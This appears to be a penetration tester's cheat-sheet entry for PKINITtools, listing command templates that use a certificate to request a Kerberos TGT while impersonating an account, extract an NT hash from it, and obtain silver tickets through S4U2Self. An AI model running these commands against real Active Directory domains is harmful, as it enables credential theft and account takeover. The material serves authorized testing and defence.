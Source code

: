 # PKINITtools

% adcs, certificate, pki, windows, Active directory, template, shadow credential


## Request a TGT using a PFX
#plateform/linux #target/remote #cat/RECON
error "KDC has no support for PADATA type (pre-authentication data)" means DC do not support PKINIT because their certificates do not have the Smart Card Logon EKU

use PassTheCert.py to attack ldap with a cert but no tgt can be obtained
```
gettgtpkinit -cert-pfx ""$(pwd)/<pfx_file_>" -pfx-pass <pfx_password|jubeaz> -dc-ip <dc_ip> <domain_fqdn>/<accountToImpersonate> "$(pwd)/<ccache_name>".ccache
```

## hash from TGT and AS REP key
#plateform/linux #target/remote #cat/RECON
```
export KRB5CCNAME="$(pwd)/<ccache_name>".ccache && getnthash <domain_fqdn>/<ComputerAccount> -key <key>
```

## silver ticket using a certificate
#plateform/linux #target/remote #cat/RECON
```
gets4uticket 
```
Uses Kerberos S4U2Self to request a service ticket that is valid on the host for which you've obtained a certificate